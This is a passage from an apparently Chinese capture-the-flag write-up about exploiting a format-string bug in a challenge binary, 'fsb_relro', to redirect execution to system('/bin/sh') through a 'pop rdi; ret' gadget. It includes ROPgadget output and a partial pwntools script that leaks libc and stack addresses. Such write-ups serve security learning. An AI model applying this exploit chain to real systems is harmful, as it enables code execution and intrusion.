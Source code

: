 
相应的情况如上，所以我们明确地看到程序已经运行到echo的返回地址上了，可以看到原来栈上的栈顶指针是指向`0x400982`(echo的返回地址，在main函数的地址)，因此我们需要把栈上的栈顶指针改为指向一个`pop rdi;ret`这个gadget上，然后再给rdi赋值为`/bin/sh\x00`(栈顶指针+8)，最后把system放到这个gadget的ret(栈顶指针+16)上就可以了。
并且两个值计算可以得到相差0x28
```
>>> hex(0x7ffd79d4fba8-0x7ffd79d4fbd0)
'-0x28'
```


查找gadget ：`ROPgadget --binary fsb_relro --only "pop|ret"`

```
root@kali:~/Desktop/release# ROPgadget --binary fsb_relro --only "pop|ret"
Gadgets information
============================================================
0x00000000004009fc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004009fe : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a00 : pop r14 ; pop r15 ; ret
0x0000000000400a02 : pop r15 ; ret
0x00000000004009fb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004009ff : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400750 : pop rbp ; ret
0x0000000000400a03 : pop rdi ; ret
0x0000000000400a01 : pop rsi ; pop r15 ; ret
0x00000000004009fd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400679 : ret

Unique gadgets found: 11
```


查找/bin/sh(因为用的是本地库，所以我就直接把本地库cp出来直接找了，但是如果是远程库，那就另当别论了)

```
root@kali:~/libc-database# ROPgadget --binary libc-2.24.so --string "/bin/sh"
Strings information
============================================================
0x00000000001619b9 : /bin/sh
```

然后后面依次改地址的方法跟前面几个题目都是一样的，就不多说了。

上脚本：
```
from pwn import *

p = process('fsb_relro') #env = {'LD_PRELOAD':'./libc.so.6'}
#libc = ELF('libc.so.6')
#elf = ELF('fsb_inf')

def s_sub(a,b):
    if a<b:
       return 0x10000 + a - b 
    return a - b 

payload = ""
payload += "%78$p.%79$p.%72$p." 

pause()

p.recv()
p.sendline(payload)
p.recvuntil(".")
libc_start_main_ret = int(p.recvuntil(".",drop = True),16)
#print hex(libc_start_main_ret)
log.info("libc_start_main_ret addr: " + hex(libc_start_main_ret))
stack_addr = int(p.recvuntil(".",drop = True),16)
log.info("stack_addr addr: " + hex(stack_addr))
```